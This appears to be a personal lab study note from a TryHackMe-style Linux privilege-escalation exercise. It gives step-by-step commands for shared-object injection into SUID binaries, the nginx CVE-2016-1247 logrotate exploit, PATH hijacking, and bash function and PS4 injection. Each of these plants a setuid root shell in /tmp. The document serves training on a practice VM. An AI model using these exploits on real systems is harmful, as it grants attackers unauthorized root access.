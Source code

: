 #Linux #PrivEsc #SUID #SharedObjectInjection #GTFOBins #sudo #symlinks   #CVE-2016-1247 #Nginx #EnvironmentVariables #Apache #gcc #Find #strings #env
https://gtfobins.github.io/
# Shared Object Injection
#SharedObjectInjection
## **Detection**
Linux VM

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries. e.g. `/usr/local/bin/suid-so`
3. In command line type:
`strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`
4. From the output, notice that a .so file is missing from a writable directory.

## **Exploitation**
Linux VM

5. In command prompt type: `mkdir /home/user/.config`
6. In command prompt type: `cd /home/user/.config`
7. Open a text editor and type:
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

8. Save the file as `libcalc.c` (make sure to use tabs not spaces, sometimes errors out)
9. In command prompt type:
```
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c -static
```
10. In command prompt type: `/usr/local/bin/suid-so`
11. In command prompt type: `id`

---
# CTF Challenge

[[VulnUniversity - THM]]

---
# Symlinks
#symlinks

[Nginx Exploit](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html)
#CVE-2016-1247 #Nginx

## **Detection**
Linux VM

1. In command prompt type: `dpkg -l | grep nginx`
2. From the output, notice that the installed nginx version is below 1.6.2-5+deb8u3.
3. Run `find / -type f -perm -04000 -ls 2>/dev/null`
	1. SUID bit must be set on `/usr/bin/sudo` also to exploit nginx

## **Exploitation**

Linux VM – Terminal 1

1. For this exploit, it is required that the user be www-data. To simulate this escalate to root by typing: `su root`
2. The root password is `password123`
3. Once escalated to root, in command prompt type: `su -l www-data`
4. In command prompt type:
```
/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log
```
5. At this stage, the system waits for logrotate to execute. In order to speed up the process, this will be simulated by connecting to the Linux VM via a different terminal.

Linux VM – Terminal 2

1. Once logged in, type: `su root`
2. The root password is `password123`
3. As root, type the following: `invoke-rc.d nginx rotate >/dev/null 2>&1`
4. Switch back to the previous terminal.

Linux VM – Terminal 1

1. From the output, notice that the exploit continued its execution.
2. In command prompt type: `id`

---

# Environment Variables #1
#EnvironmentVariables #Apache #find #strings 

## **Detection**
Linux VM

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.
3. In command prompt type: `strings /usr/local/bin/suid-env`
4. From the output, notice the functions used by the binary.

## **Exploitation**
Linux VM

Read [this](https://gtfobins.github.io/gtfobins/env/) for simpler exploit...

1. In command prompt type:
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
```
2. In command prompt type: `gcc /tmp/service.c -o /tmp/service -static`
3. In command prompt type: `export PATH=/tmp:$PATH`
4. In command prompt type: `/usr/local/bin/suid-env`
5. In command prompt type: `id`

---

# Environment Variables #2
#EnvironmentVariables #env #find #strings 

## **Detection**
Linux VM

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.
3. In command prompt type: `strings /usr/local/bin/suid-env2`
4. From the output, notice the functions used by the binary.

## **Exploitation Method #1**
Linux VM

1. In command prompt type:
```
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```
2. In command prompt type:
`export -f /usr/sbin/service`
3. In command prompt type: `/usr/local/bin/suid-env2`

## **Exploitation Method #2**
Linux VM

1. In command prompt type:
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```